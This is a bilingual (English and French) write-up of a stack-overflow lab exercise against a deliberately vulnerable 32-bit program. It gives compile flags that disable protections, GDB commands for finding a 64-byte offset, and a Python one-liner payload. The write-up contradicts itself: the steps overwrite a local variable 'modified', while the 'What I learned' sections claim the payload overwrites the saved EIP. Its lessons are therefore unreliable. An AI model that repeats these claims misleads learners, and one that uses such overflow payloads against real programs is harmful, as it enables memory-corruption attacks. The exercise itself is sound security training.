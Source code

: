 # Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack1.c -o Stack1
```

2. **Find interesting break point**
- Check for the use of any unsafe function, such as get/strcpy/fgets.
- Find interest address for modified (0x080491eb)
```gdb
gdb -q ./Stack1
disas main
```
![Disas](Images/DisasMain.png)

3. **Offset Calculation**
- Calculate distance between buffer and and modified
```gdb
break *0x080491eb
run < AAAAAAAAAAAAAAAAAAA
```
![Break](Images/Breakpoint.png)

```gdb
print &buffer
print &modified
print (char *)&modified - (char *)&buffer
64 #Now test offset plus payload
```
![Offset](images\Offset.png)

4. **Build Payload and confirm** 
- Payload will look like
```bash
#From CMD line
./Stack1 "$(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")"

#From GDB
gdb --args ./Stack1 $(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")
break *0x080491eb
p/x modified
```

![Success1](Images/Success1.png)

![Success2](Images/Success2.png)


# What I learned

- **Little-endian awareness:** the target return address must be written in reverse byte order (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), or the CPU will read it backwards.
- **Exact offset still matters:** 64 bytes of padding gets you to the saved EIP just like in _stack0_; anything off by one leaves EIP untouched.
- **Proof of success:** running `./stack1 "$(python3 -c 'print(\"A\"*64 + \"\\x64\\x63\\x62\\x61\")')"` and checking GDB shows EIP = `0x61626364`, confirming the payload landed exactly where intended.

# Ce que j’ai appris

- **Penser little-endian :** l’adresse de retour doit être écrite à l’envers (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), sinon le processeur la lira à rebours.
- **L’offset reste crucial :** 64 octets de bourrage atteignent pile l’EIP sauvegardé ; un seul ocet de plus ou de moins et l’EIP reste intact.
- **Preuve à l’appui :** la commande  
    `./stack1 "$(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')"`  
    exécutée sous GDB affiche EIP = `0x61626364`, confirmant que la charge utile tombe exactement au bon endroit.

